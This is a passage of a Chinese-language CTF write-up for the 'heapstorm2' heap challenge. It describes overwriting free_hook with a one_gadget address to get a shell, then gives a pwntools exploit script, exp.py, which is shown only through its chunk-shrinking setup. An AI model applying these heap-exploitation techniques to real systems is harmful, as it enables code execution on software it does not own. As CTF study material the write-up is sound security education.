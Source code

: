 ### get shell

同样套路将第二个chunk地址设置为free_hook地址，update填入one_gadget地址

## exp.py
exp基本是sakura师傅的

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
debug = 0
p = process('./heapstorm2')
#p = process(["./heapstorm2"],env={"LD_PRELOAD":'./libc-2.24.so'})
elf = ELF('./heapstorm2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
if debug:
    gdb.attach(p)

def Alloc(size):
    p.recvuntil('Command: ')
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))

def Update(index,content):
    p.recvuntil('Command: ')
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Size: ')
    p.sendline(str(len(content)))
    p.recvuntil('Content: ')
    p.send(content)

def Delete(index):
    p.recvuntil('Command: ')
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(index))

def View(index):
    p.recvuntil('Command: ')
    p.sendline('4')
    p.recvuntil('Index: ')
    p.sendline(str(index))

def exp():
    #chunk shrink
    Alloc(0x18)#0
    Alloc(0x508)#1
    Alloc(0x18)#2
    Update(1,'a'*0x4f0+p64(0x500))

    Alloc(0x18)#3
    Alloc(0x508)#4
    Alloc(0x18)#5
    Update(4,'a'*0x4f0+p64(0x500))
    Alloc(0x18)#6
    log.success('chunks design ok!')

    Delete(1)
```
